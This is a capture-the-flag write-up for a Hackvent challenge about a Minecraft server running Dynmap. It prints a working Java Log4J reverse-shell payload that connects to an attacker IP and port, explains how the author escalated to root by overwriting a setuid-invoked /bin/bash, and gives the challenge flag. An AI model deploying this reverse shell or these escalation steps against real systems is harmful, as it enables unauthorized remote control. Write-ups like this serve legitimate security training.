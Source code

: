 # 19 - Santa's Minecraft Server

## Description

Level: Hard<br/>
Author: nichtseb

Santa likes to play minecraft. His favorite version is 1.16. For security reasons, the server is not publicly
accessible. But Santa is a little show-off, so he has an online map to brag about his fabulous building skills.

## Solution

For this challenge we get access to a webserver that is
running [Dynmap](https://www.spigotmc.org/resources/dynmap%C2%AE.274/), a famous Minecraft server plugin that renders a
Minecraft world on a website. I almost immediately knew what we had to do as a first step: the Dynmap contained a chat
feature and older versions of Minecraft were vulnerable to Log4J exploits. After some research, I came across [a working
PoC](https://github.com/kozmer/log4j-shell-poc) that I could use for my attack.

After some more trial and error, I finally got a working "native" reverse shell written in Java. Most other reverse
shells just didn't work at all:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host = "10.13.0.6";
        int port = 9001;
        String cmd = "/bin/sh";
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host, port);
        InputStream pi = p.getInputStream(),
                pe = p.getErrorStream(),
                si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while (!s.isClosed()) {
            while (pi.available() > 0)
                so.write(pi.read());
            while (pe.available() > 0)
                so.write(pe.read());
            while (si.available() > 0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            } catch (Exception e) {
            }
        }
        p.destroy();
        s.close();
    }
}
```

This was just the first part of the challenge. The second part was about gaining root on the remote system. Luckily,
there was a setuid binary prepared just for us. The source of the binary was also provided:

```c
#include <unistd.h>
#include <stdio.h>

void debugShell() {
    printf("Launching debug shell...\n");
    char *argv[] = { "/bin/bash", 0 };
    execve(argv[0], &argv[0], NULL);
}

void main() {
    printf("--- Santas Workshop Tool ---\n");
    printf("Pick an action:\n");
    printf("s) debug shell\n");
    printf("-- more options to come\n");
    
    char option;
    scanf("%c", &option);
    
    switch (option) {
        case 's': debugShell(); break;
        default: printf("Unknonwn option!\n"); break;
    }
}
```

At this point I was a bit lost for a while. The intended solution here would have been:

- Realize that the `/bin/bash` is an old version that has been moved there manually
- Use a [0-day vulnerability in bash](https://www.youtube.com/watch?v=-wGtxJ8opa8)

I went with a much simpler solution. By coping the file into the Docker container the permissions of the file were
changed and so it was possible to overwrite `/bin/bash` with arbitrary data. This was very helpful since we could
overwrite it with some other binary and get a root shell. I used `vi` which I copied via `cp /usr/bin/vi /bin/bash` and
then I was able to read the flag file via `:edit /home/santa/flag.txt` which
contained `HV23{d0n7_f0rg37_70_upd473_k1d5}`.
